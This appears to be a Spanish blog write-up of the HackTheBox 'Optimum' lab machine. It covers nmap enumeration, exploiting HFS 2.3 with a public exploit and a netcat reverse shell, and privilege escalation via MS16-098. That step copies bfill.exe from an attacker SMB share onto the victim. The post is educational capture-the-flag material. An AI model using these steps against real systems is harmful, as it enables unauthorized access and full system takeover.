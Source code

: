 ```yaml
---
layout: post
title:  "Optimum - HackTheBox - WriteUp/Walkthrough"
summary: "Resolución de la máquina Optimum de Hackthebox"
date: '2021-10-21 10:35:23 +0530'
category: ['hackthebox', 'writeup','walkthrough']
thumbnail: /assets/img/posts/optimum-writeup/Optimum-700x400.webp
keywords: hackthebox, optimum, writeup, walkthrought 
permalink: /blog/optimum-hackthebox-writeup-walkthrough/
author: r4z0r
usemathjax: true
---
```

Hola amigos, en esta ocasión les traigo un nuevo WriteUp al blog, la máquina Optimum de HackTheBox.

![optimum](/assets/img/posts/optimum-writeup/opti.webp)

## Enumeración


```shell
# ----- Enumeración de puertos -----
 nmap -sS --min-rate 5000 -p- --open -T5 -n -v $ip -oG puertos 
$ip = La ip de la máquina de Optimum (ip=10.10.10.8).
-sS = Escaneo TCP SYN para un escaneo rápido.
–min-rate 5000 = Para no enviar paquetes menores a 5000 por segundo.
-p- = Escanear todos los puertos, 65535.
--open = Filtrar solo por puertos con status open.
-v = Para ir detallando la salida a medida que va encontrando resultados.
-n = Evitar enumeración DNS.
-oG = Para exportarlo a un formato grepeable (de este modo podemos extraer los puertos a través de una función, útil cuando son muchos puertos).
# ----- Enumeración específica ----- 
nmap -sC -sV -p80 $ip -oN svp
-sV = Enumeración de servicios y versiones.  
-sC = Scripts de la categoría default.
-oN = Exportarlo a un formato normal llamado svp.
$ip = La ip de la máquina de Optimum (ip=10.10.10.8).
```
![nmap-ports](/assets/img/posts/optimum-writeup/nmap-optimum.webp "Scan ports with nmap")

![nmap-sc](/assets/img/posts/optimum-writeup/nmap-sc-optimum.webp "Scan scripts, services and versions with nmap")


Como podemos observar, solo tenemos un puerto abierto donde en el cuál corre un servicio llamado HFS ( Servidor de archivos HTTP) . HTTP File Server, es un servidor web gratuito diseñado específicamente para publicar y compartir archivos. Este servidor ya lo habíamos explotado anteriormente en una máquina de TryHackMe..

## Explotación

![hfs](/assets/img/posts/optimum-writeup/hfs.webp "HFS Server")

Ahí podemos ver la versión de HttpFileServer, es la 2.3, cosa que ya nos indicó nmap. Ahora buscaremos un exploit en searchsploit.

![hfs](/assets/img/posts/optimum-writeup/searchsploit.webp "searchsploit")

![rejetto](/assets/img/posts/optimum-writeup/rejjetto.webp "rejetto")

Seleccionamos el exploit 39161.py y lo descargamos

Entramos a investigar el exploit, como ven nos pide que compartamos nc.exe en nuestra máquina cuando vayamos a ejecutar el exploit.

![exploit](/assets/img/posts/optimum-writeup/revshell.webp "modificando el exploit")

Luego más abajo deben cambiar la ip, por la ip de atacante de ustedes y el puerto que van a poner a la escucha.

![exploit](/assets/img/posts/optimum-writeup/revshell2.webp "modificando el exploit")

Pasamos a la explotación, en la ventana superior izquierda vamos a compartir nc.exe, en la ventana derecha ejecutamos el exploit y en la parte >

![ejecutamosexploit](/assets/img/posts/optimum-writeup/accediendo.webp "Accediendo")

En el caso de que el exploit les pida la librería xlrd, a mi me funcionó con ese comando utilizando python2.7.

![pip](/assets/img/posts/optimum-writeup/pip.webp "pip")

Como ven ya estamos dentro de la máquina podemos ya verificar que tenemos un Windows, somos el usuario Kostas y podemos listar la primer bandera, la user,txt.txt

![accediendo](/assets/img/posts/optimum-writeup/ganando acceso.webp "flag user")

## Escalada de Privilegios

Para escalar privilegios vamos a realizar un systeminfo y copiar la información a un ficherito llamado sysinfo.txt, ustedes le dan el nombre que quieren. Ese ficherito luego lo vamos a pasar a la herramienta Suggester, les dejo el link al **[repositorio](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)**. A través de esta herramienta podemos enumerar algunas vulnerabilidades de forma offline, es decir sin necesidad de estar dentro de la máquina, solo con pasarle la información del sistema de la víctima.

![priv-esc](/assets/img/posts/optimum-writeup/sysinfo.webp "sysinfo")

![how to usage](/assets/img/posts/optimum-writeup/howtousage.webp "como usar")

```
# Clonamos el repositorio

git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester

# Nos movemos a la carpeta

cd Windows-Exploit-Suggester

# Actualizamos base de datos

python2.7 windows-exploit-suggester.py --update

# Ejecutamos la herramienta pasándole la base de datos creada y el fichero de información del sistema

python2.7 windows-exploit-suggester.py --database "basededatos" --systeminfo "sysinfo.txt"
```

![suggester](/assets/img/posts/optimum-writeup/suggester.webp "suggester")

![headsysinfo](/assets/img/posts/optimum-writeup/head sysinfo.webp "head sysinfo")

Ejecutamos Suggester

![ejecutamosuggester](/assets/img/posts/optimum-writeup/ejecutamos suggester.webp "ejecutamos suggester")


Tenemos varias vulnerabilidades para explotar, nosotros vamos a utilizar [MS16-098](https://github.com/sensepost/ms16-098). Pueden entrar más a detalles de la vulnerabilidad en el respositorio.

![ms16-098](/assets/img/posts/optimum-writeup/ms16-090.webp "MS16-098")

Deben descargarse el fichero bfill.exe, luego transferirlo a la máquina Windows.

```bash
# máquina atacante
a = nombre recurso compartido, es como el nombre de una carpeta
. = comparto todo lo que hay en el directorio actual, ahí esta bfill.exe
python3 smbserver.py a .
# máquina víctima
copy \\ip-atacante\a\bfill.exe
```

Una vez copiado en fichero en la máquina víctima podemos ya ejecutarlo y escalar privilegios.

![bfill](/assets/img/posts/optimum-writeup/bfill.webp "bfill.exe")

Ya somos nt authority\system, ahora toca leer la bandera de root.

![rootflag](/assets/img/posts/optimum-writeup/root flag.webp "root flag")

**¡Bien, ya resolvimos la máquina, felicidades!**

Espero que te haya gustado este artículo y hayas aprendido mucho.

Compártelo con tus amigos y sigue aprendiendo de este hermoso mundo del hacking, te veo luego.

[R4z0r](https://juankaenel.github.io)


